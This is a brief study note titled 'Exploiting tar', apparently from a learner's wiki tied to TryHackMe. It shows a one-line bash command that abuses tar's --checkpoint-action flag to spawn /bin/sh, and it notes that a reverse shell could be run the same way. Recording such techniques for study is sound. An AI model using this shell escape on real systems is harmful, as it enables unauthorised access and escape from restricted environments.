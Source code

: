 # Exploiting "tar"

**author**:: Nathan Acks  
**date**:: 2021-11-02

Tar can be configured to execute an action for every N files processed using the --checkpoint and --checkpoint-action flags. So this will get us a shell:

```bash
tar -cf /dev/null /dev/null \
    --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

This works with any input/output file (not just /dev/null), and with any executable binary (such as a reverse shell).

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [GTFOBins: tar](https://gtfobins.github.io/gtfobins/tar/)
